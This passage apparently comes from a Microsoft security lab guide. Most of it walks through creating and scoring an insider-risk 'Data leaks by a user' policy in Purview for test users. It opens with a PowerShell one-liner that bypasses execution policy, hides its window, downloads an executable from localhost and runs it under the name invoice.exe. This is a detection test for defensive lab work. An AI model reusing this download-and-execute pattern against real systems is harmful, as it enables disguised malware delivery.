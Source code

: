 ```powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyleHidden $ErrorActionPreference= 'silentlycontinue';(New-ObjectSystem.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe','C:\test-WDATP-test\invoice.exe');Start-Process 'C:\test-WDATP-test\invoice.exe'```

![A screenshot of a computer screen Description automatically generated
with medium confidence](./media/image52.png)

12. On **Triggers for this policy** page, select Radio button near **User
    performs an exfiltration activity**. Under S**elect which activities
    will trigger this policy**, select all the available
    options especially **Download content from SharePoint**. and then
    select **Next**.

![A screenshot of a computer Description automatically
generated](./media/image67.png)

13. On **Triggering thresholds for this policy**, select **Use custom
    thresholds**. Set every threshold to **1** and select **Next**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image68.png)

14. Select the default settings on the **Indicators** page and
    select **Next**.

15. On **Decide whether to use default or custom indicator thresholds**,
    select **Customise thresholds**, use **1**, **2**, and **3** events for each stage
    respectively then select **Next**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image69.png)

16. On **Review settings and finish**, select **Submit**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image70.png)

17. On **Your policy was created**, select **Done**.

![A screenshot of a computer Description automatically
generated](./media/image71.png)

18. Keep the tab open and continue to the next task.

#### Step 2 – Score the policy

1.  Click on the new policy named **Data leaks by a user**. Select **Start
    scoring activity for users**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image72.png)

2.  In the Reason field in the **Add users to multiple policies** pane,
    type ```Testing the policy```. In the **This should last for (choose between
    5 and 30 days)** field, select **10** days. Use the **Search user to add to
    policies field**. Add **Patti**, **Adele**, and **Christie**. Then click on **Start
    scoring activity**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image73.png)

3.  Once you get the confirmation that you have started **Scoring
    activity for 3 users**, click **Close**.

![A screenshot of a computer Description automatically generated with
medium confidence](./media/image74.png)
```